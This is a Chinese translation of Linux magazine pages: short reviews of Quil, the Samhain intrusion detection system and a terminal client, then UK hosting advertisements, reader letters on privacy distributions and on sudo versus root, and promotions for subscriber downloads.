就像所有 Clojure 事情一样，Lein 让安装变得最简单——`Lein new quil my-sketch`，然后在首选的支持 Clojure 的编辑器（Emacs 或 Lighttable）中打开生成的 core.clj 文件，并评估该文件。网站上有大量示例，还有教程链接以及在线尝试的机会。说到在线，Quil 也支持**ClojureScript**（使用 Processing.js），因此草图可以直接在你的 web 浏览器中运行。

如果你了解 Processing，看到它为了适应 Clojure 世界而遭受“括号攻击”可能会让你感到有点不安，但这里的示例有助于帮助你适应——尝试 Quil 的 GitHub 页面上的 Grey Crottes。Quil 可以通过中间件进行扩展，例如**Navigation 3D**，它允许通过类似射击游戏的方式在 3D 空间中导航。草图还可以制作为可运行的 jar 文件，以便携带到任何 JVM 运行时环境。有趣且实用，你还能想要什么？

- **优点**
  - 无需重启即可更新函数（以及因此动画）：从数学中创作艺术！
- **缺点**
  - 它不是纯 Processing，而且对于新手来说 Clojure 是一个很大的冲击（直到他们爱上它！）
- **适合...**
  - 进入新的演示和弹出式网站。
- [quil.info/](http://quil.info/)

### HIDS

#### Samhain 4.2.0

不要依赖运气来保护你的服务器——安装一个基于主机的入侵检测系统

**安全**——你知道你需要它，但**总有些东西会阻碍你**。如果你有一两个 VPS，也许家里还有面向互联网的一两个服务器——别忘了算上那个树莓派项目——你至少思考过安全，可能甚至有一个防火墙，也许甚至每天进行软件更新，但你可能太忙了，无法认真对待入侵检测软件。好吧，别再拖延、推迟和犹豫不决了，看看 Samhain 吧。

Samhain 是最佳的基于主机的入侵检测系统（HIDS）之一，它隐蔽地驻留在你的系统上，监控数据包并检测文件修改——同时搜索 rootkit 并检测流氓 SUID 可执行文件。它可以作为单台服务器上的独立监控器运行，也可以监控多个主机，集中记录日志——所有日志自然都是签名和加密发送的。

大多数仓库中都有软件包，但发行版可能在编译 Samhain 时未包含你需要的功能，因此考虑下载源代码；Samhain 提供了检查其完整性的说明。出于安全原因，依赖项极少，这使得编译变得容易。真正的工作开始于你在首选编辑器中打开 /etc/samhain 时：是时候阅读那本厚重的手册了。简洁的手册页是 Samhain 许多部分的有用指南，包括以隐蔽模式运行，配置通过隐写术隐藏。

- **优点**
  - 功能强大且灵活的入侵检测系统；OSSEC 唯一的严肃竞争对手。
- **缺点**
  - 要充分利用它，你将不得不花大量时间阅读全面的手册。
- **适合...**
  - 监控服务器和家庭工作站点
- [ta-samhain.de/samhain/](http://ta-samhain.de/samhain/)

### 终端客户端

#### iTerm 1.4.1

使用 iTerm 管理你所有的远程终端会话


如果你经常登录远程机器，但没有使用像 MC 或 Emacs 的 TRAMP 模式这样跨网络透明会话的工具，那么你可能已经厌倦了处理**记住登录详细信息以及文件传输所涉及额外工作**。进入 iTerm，这是一个基于 VTE 的终端模拟器，具有许多功能，使你的生活更轻松。

除了标签页会话的标准功能外，远程工作（SSH、sftp，甚至 telnet）通过书签、加密密码保存（以及密钥认证）以及远程文件和目录管理得到促进：X11 转发也可以在 SSH 会话上进行。有一些编辑功能，以及大量的配置选项，如自定义鼠标行为，适合那些有特定工作方式的人。

此外，用户可以将相同的命令发送到远程服务器集群或本地桌面会话——这也是逐步执行 shell 脚本部分以仔细测试其对服务器影响的绝佳方式。非常有用。相当规律的发布，既关注 bug 修复也关注新功能，意味着用户可以对在该应用中投入的时间充满信心，不会白费。


**上图** iTerm 消除了远程工作的痛苦，为你提供命令行和 GUI 的最佳功能

- **优点**
  - 将良好的基本终端客户端与跨网络工作的便捷、省时功能相结合。
- **缺点**
  - 它永远不会像通过 Emacs、MC 等跨机器工作那么强大——但它需要吗？
- **适合...**
  - 任何想要远程会话的人：从 VPS 到树莓派
- iTerm.sf.net/

### 在我们的目录中获取列表

要在此处做广告，请联系 Luke (luke.biddiscombe@imagin-publishing.co.uk | +44 (0)1202 586431)

**推荐托管列表**

**特色主机：**
www.cyberhostpro.com
0845 527 9345


**关于我们**
Cyber Host Pro 致力于在英国提供最好的云服务器托管；自 15 年前开门营业以来，我们就对自动化着迷！我们逐年增长，喜爱我们稳固增长的、信任我们保持其业务云端在线的客户群！

如果你在寻找一家能为你提供所需质量以助力业务增长的托管提供商，请联系我们看看我们如何帮助你和你的业务！我们拥有广泛的托管解决方案，包括面向所有规模企业的转售托管和服务器产品。

**我们提供的服务**
- 云 VPS 服务器 – 可伸缩的云服务器，可选 cPanel 或 Plesk 控制面板。
- 转售托管 – 向客户销售 web 和电子邮件托管；提供 Windows 和 Linux 托管。
- 专用服务器 – 拥有自己的专用服务器将为你提供最大性能；我们的英国服务器通常包含当天激活服务。
- 网站托管 – 我们的所有 web 托管计划都托管在 2015/16 年的 SSD Dell 服务器上，为你提供最快速的托管！

**来自专业人士的 5 个技巧**

1. **优化你的网站图片**
   当把你的网站上传到互联网时，确保你的所有图片都针对网站进行了优化！尝试使用 jpegmini.com 软件，或者如果使用 Wordpress，安装 EWWW Image Optimizer 插件。
2. **在英国托管你的网站**
   确保你的网站托管在英国，不仅是为了法律原因！如果你的服务器在海外，你可能会在 google.co.uk 上的搜索引擎排名中吃亏——你可以访问 www.check-host.net 检查你的网站在哪里。
3. **你定期备份吗？**
   如果你今天失去了你的网站，会对你的业务产生什么影响？始终进行自己的备份很重要；即使你的主机提供备份解决方案，对自己的数据承担责任也很重要。
4. **试图在 Google 上获得排名？**
   Google 在 2015 年进行了一些更改。如果你难以在 Google 上获得排名，确保你的网站是移动端响应式的！此外，Google 现在更喜欢安全（https）网站！联系你的主机在你的网站上设置并强制 https。
5. **避免廉价托管**
   你肯定看过那些关于域名和托管只需 £1 的电视广告！想想逻辑；£1 能容纳多少客户挤在那台服务器上？他们肯定会使用廉价的 C20 硬盘而不是 2.1k+ 企业级 SSD！请记住一分钱一分货！

**用户评价**

- **Chris Michael**
  “过去 12 年我一直在使用 Cyber Host Pro 托管各种服务器。客户支持非常出色，他们非常可靠且物超所值！我强烈推荐他们。”
- **Glen Wheeler**
  “我是一名网站开发者，12 年前我作为小型转售商注册了 Cyber Host Pro，12 年后我拥有多个 Cyber Host Pro 的专用和云服务器，他们的技术支持非常出色，我通常每月获得 99.9-100% 的正常运行时间”
- **Paul Cunningham**
  “我和我的商业伙伴之前使用 Cyber Host Pro 的转售账户 5 年，我们现在已经超出了我们的转售计划，Cyber Host Pro 将我们迁移到我们的自己的云服务器，没有给我们的客户造成任何停机！他们提供给我们支持非常出色，典型的工单在 5-10 分钟内得到回复！”


### 高端托管服务


www.cwcs.co.uk  
0800 1 777 000

CWCS 托管服务是英国领先的托管专家。他们提供全面而完备的托管产品、服务和支持。其受过高度培训的工作人员不仅是托管专家，更致力于提供优质的客户体验，并对自己所做的事情充满热情。

- 服务器托管（Colocation）
- VPS
- 100% 网络正常运行时间

### 性价比托管服务

elastic.hosts  
elastichosts.co.uk  
02071 838250

ElasticHosts 为全球企业提供简单、灵活且具有成本效益的云服务，具备高性能、高可用性和可扩展性。其工程师团队通过电话、电子邮件和工单系统提供全天候的优秀支持。

- 任意操作系统上的云服务器
- Linux 操作系统容器
- 世界级 24/7 支持

### 中小企业托管主机


www.hostpapa.co.uk  
0800 051 7126

HostPapa 是一家屡获殊荣的网络托管服务提供商，也是绿色托管领域的领导者。他们提供市场上功能最齐全的托管套餐之一，并辅以 24/7 客户支持、学习资源以及卓越的可信度。

- 网站构建器
- 经济实惠的价格
- 无限数据库


### 企业托管服务


www.netcometera.co.uk | 0800 808 5450

Netcometera 成立于 1996 年，是欧洲领先的网络托管服务提供商之一，客户遍布全球 75 多个国家。作为英国数据中心托管、云托管、专用服务器和托管网络服务的主要提供商，Netcometera 提供一系列服务，以有效管理 IT 基础设施。其先进数据中心使 Netcometera 能够为企业提供企业级解决方案。

- 托管和云托管
- 数据中心托管
- 专用服务器


### 经济型托管服务


www.hetzner.de/us | +49 (0)9831 5050

Hetzner Online 是一家专业的网络托管提供商和经验丰富的数据中心运营商。自 1997 年以来，该公司一直为个人和商业客户提供高性能托管产品以及高效运行网站所需的基础设施。稳定的技术、有吸引力的价格以及灵活的支持和服务相结合，使 Hetzner Online 能够不断巩固其在国内和国际市场上的地位。

- 专用和共享托管
- 托管机架
- 互联网域名和 SSL 证书
- 存储盒子

### SSD Web 托管服务


www.bargainhost.co.uk  
0843 289 2681

自 2001 年以来，Bargain Host 一直致力于在英国提供最低价格的托管服务。他们已成功实现这一目标，并建立了庞大的客户数据库，其中包括许多回头客。他们还因提供卓越的托管服务而获得多项奖项。

- 共享托管
- 云服务器
- 域名

### 性价比 Linux 托管服务


patchman-hosting.co.uk  
01642 424 237

对于寻求经济实惠且强大的托管服务的家庭用户、商业用户和网页设计师来说，Linux 托管是一个很好的解决方案。无论是构建单页作品集，还是运行基于数据库的电子商务网站，都有适合您的 Linux 托管解决方案。

- 学生托管优惠
- 网站设计器
- 域名

### 快速、可靠的托管服务


www.bytemark.co.uk  
01904 890 890

Bytemark 成立于 2002 年，是“英国云和专用托管领域的专家”。其宣言包括内部专业知识、透明定价、免费软件支持、履行支持人员所做的承诺，以及以公平价格提供顶级质量的托管硬件。

- 托管服务
- 英国云托管
- Linux 托管

### 评论

## 读者来信

关于杂志、Linux 和开源的问题和观点


*上方的 MOFO Linux 是基于 Ubuntu 的发行版，专为关注监控和审查的人群设计*

### 请保护隐私

亲爱的 Linux User 编辑组：

我注意到，鉴于英国最近引入了所谓的《偷窥者宪章》、Yahoo 等公司坦率荒谬的数据泄露事件，以及围绕黑客的持续新闻报道，你们可以多谈谈普通用户如何保护我们的私有数据，防止那些想要获取它的人得逞。像 Apricity 和 elementary 这样精美的 Linux 版本（如你们最近一期介绍的那样）固然很好，但它们能抵挡住蓄意破坏者或国家行为者吗？我认为不能。如果能提供一些关于 Linux 版本的指导，将不胜感激，不仅是为了我自己和其他担心财务和数据安全的人，也是为了那些身处“老大哥”监视之眼是真实且当前威胁的地方的人们。

Colin Farnwig

计算机安全最近一直屡见报端，这就是为什么我们决定本期对信息安全进行深入了解！但尽管我们的专题文章包含了许多锁定和测试系统与方法网络的方式，它更侧重于全球的系统管理员，而不太面向家庭用户，他们可能没有时间或兴趣去监控日志并对自己安全策略进行渗透测试。幸运的是，有一些非常优秀的 Linux 发行版专注于隐私——我们之所以不在光盘中包含它们，是因为为了最大化安全性，您最好自行下载并在安装前进行检查。Tails (http://tails.boum.org/) 是最著名的隐私专注发行版，Qubes OS (https://www.qubes-os.org/) 是另一个——爱德华·斯诺登显然对它推崇备至。与此同时，MOFO Linux (http://mofolinux.com/) 特别设计用于对抗国家监控和审查，适用于那些此问题令人担忧的国家。后者的好处在于它基于 Ubuntu，因此运行流畅且学习曲线平缓，适合那些技术不熟练但仍需保护隐私的人。


*上方 尽可能使用 sudo 和 su 而不是 root，以确保您是唯一拥有完全控制权的人*

### sudo 和 root 有什么区别？

你好 Linux User 团队：

我是 Linux 新手，如果这是个愚蠢的问题请原谅，但 sudo 和 root 有什么区别？我知道 root 相当于 Windows 或 Mac 的管理员账户，那个什么都能做的账户，但 sudo 似乎对命令拥有同样的权力，但我经常读到说用 sudo 而不是 root 更好。我*认为*它们本质上做的是同样的事？如果 root 是拥有所有权力的管理员账户，为什么不用它？在 Windows 中，如果你不是管理员，基本上对系统几乎没有控制权，那为什么在 Linux 中你会选择低于完全控制的状态呢？

Sam Grange

当你来自 Windows 背景时，故意避免使用提供最大控制权的用户账户似乎违背直觉，但许多 Linux 专业人士这样做有一个非常好的原因：安全。root 账户字面上被允许控制 Linux 系统中的所有内容，这听起来是个好主意，但实际操作中意味着计算机的其他用户（例如公司机器上的同事或在家里的孩子）有机会启动你未曾意识到的命令。使用 sudo 运行命令（或使用 su 运行多个命令）意味着你只需在需要时利用 root 的所有权力，而无需让 shell 保持打开状态并盲目地设置为 root 权限——每次你都需要通过 sudo 或 su 重新确认你拥有超级用户访问权限。这最大限度地减少了以 root 身份运行不期望、不规则或单纯错误的命令并在你的系统上引发错误的风险。安全不仅是保护自己、机器和数据免受黑客侵害——也是保护它们免受误用。


*上方 [www.gadgetally.xyz](http://www.gadgetally.xyz) 是我们网站及部分姐妹杂志网站的新家——今天就来探索其丰富的内容吧*

### 哇，哇，小玩意儿网站

你好，一直以来我发现每次我试图通过书签或输入地址访问 **Linux User & Developer** 网站时，我都被带到了其他地方——一个名为 gadgetally.xyz 的网站。我注意到它似乎包含来自 **Linux User & Developer** 的内容以及许多其他有趣的东西，但我很好奇为什么我被带到了那里，而不是我习惯使用的 **Linux User & Developer** 网站。请提供建议。

Harry Rayson

旧版 **Linux User & Developer** 网站已不复存在——相反，我们的几本技术杂志现在通过姊妹杂志 Gadget 的网站聚合其网站内容。您会来自我们以及姊妹杂志 Gadget、iCreate 和 *Web Designer* 的大量内容——这是一个充满技巧、教程、硬件指南和更多内容的大藏宝库。旧网站链接自动重定向到那里的原因是，如果我们直接把你带到所寻找内容的新家，比在页面上或杂志内手动重定向你或使用新链接更方便。将所有网站聚合在一起也让你有机会探索更多可能感兴趣的內容，如最新科技或用于 Apple 架构或网页设计的巧妙技巧。在网站上翻找一番，你会发现大量有趣的故事、指南和更多内容！


## 随杂志免费赠送

立即获取这些令人难以置信的免费赠品……

- 最佳发行版和自由开源软件
- Linux PC 必备软件
- 专业视频教程
- Linux 基金会分享其技能
- 教程项目文件
- 跟进我们教程所需的所有资源
- 此外，以下资源也归你所有……
  - 下载 Kali Linux、IPFire 和 Metasploitable，使用它们测试你的安全性并访问我们功能中的自由开源软件
  - 享受来自 Linux 基金会的 20 小时专家视频教程
  - 获取我们 Linux 和树莓派教程的程序代码

登录 **www.filesilo.co.uk/linuxuser**


注册即可**立即访问**这套不可或缺的 Linux 发行版和软件包、操作指南视频及教程资源


## 给订阅者的惊人礼物

今天订阅并解锁来自 40 多期杂志的免费赠品

通过订阅杂志以省钱方式访问我们的整个资源库——这意味着数百个免费资源


**超过 20 小时的视频指南**
来自 Linux 基金会的必要建议

**最佳 Linux 发行版**
专业的 Linux 操作系统

**自由开源软件**
您的 Linux PC 必备程序


### 请前往第 32 页立即订阅

**已经是印刷版订阅者？**
这是今天解锁 FileSilo 的方法……

使用你的唯一 Web ID 解锁整个 L&FD FileSilo 资源库 – 这是印在你的订阅邮件标签地址详情上方的八位字母数字代码。也可以在任何续费信函中找到。

### 订阅的理由超过 400 个


### FileSilo

绝佳下载内容的家园 – 仅属于您喜爱的 Imagine Publishing 杂志

从任何地方安全、安全的在线访问
每位读者（印刷和数字）均可免费访问
仅在你想要的时候下载你想要的文件
所有你从所有期数获得的赠品，尽在一处

## 开始使用

关于访问你的 FileSilo 账户你需要了解的一切


**01** 遵循屏幕上的说明，在我们的安全 FileSilo 系统中创建账户。登录后，回答一个关于杂志的简单问题即可解锁该期内容。


**02** 你可以使用任何流行的浏览器在任何计算机、平板电脑或智能手机上访问 FileSilo。然而，我们建议你在计算机上下载内容，因为你可能无法将文件下载到其它设备。


**03** 如果你在访问 FileSilo 内容时遇到任何问题，请查看在线常见问题解答，或按以下地址给我们的团队发送电子邮件

filesilo@imaginmg-pub.co.uk

### 构建更好的网络

www.webdesignermag.co.uk


web designer


### 现已发售

行业访谈 | 专家教程与观点 | 当代专题 | 幕后制作


### 今天购买您的杂志

印刷版可在 www.imagineshop.co.uk 获取
数字版可在 www.greatdigitalmags.com 获取

在以下平台可用
印刷 平板 阅读器 桌面

facebook.com/webdesignermag
twitter.com/webdesignermag

### 网络安全

### 防火墙。


例如：专用根服务器
**PX61-NVMe**

- Intel® Xeon® E3-1275 v5
- 四核 Skylake 处理器
- 64 GB DDR4 ECC 内存
- 2 个 512 GB NVMe Gen3 x4 SSD
- 保证 1 Gbit/s 带宽
- 100 GB 备份空间
- 包含 30 TB 流量*
- 无最低合约期限
- 设置费用 £101.00

每月 £ **50**

*没有超额费用。如果使用量超过 30 TB/月，我们将永久限制连接速度。可选地，通过承诺为每个额外使用的 TB 支付 £1 来永久取消限制。

**为您的专用根服务器提供免费防火墙！**

Hetzner Online 的无状态防火墙是您专用根服务器的免费安全解决方案。现在，您可以在客户界面 Robot 上使用防火墙功能，为流量定义自己的过滤设置，例如源 IPv4 地址或 TCP/UDP 发送端口。通过此功能，Hetzner Online 帮助您保护您的专用根服务器免受互联网危险。**并且它自然是免费的。**

**www.hetzner.de/gb**

所有价格均不含增值税，并遵循 Hetzner Online GmbH 的条款和条件。价格可能会更改。所有权利归各自制造商保留。Intel、Intel 标志、Intel Xeon 和 Xeon Inside 是 Intel 公司（在美国或其他国家）的品牌。


# Linux 服务器托管 
来自英国专家

24/7 英国支持 • ISO 27001 认证 • 免费迁移

托管服务 • 云托管 • 专用服务器

SUPREME 托管。 
SUPREME 支持。

www.CWCS.co.uk

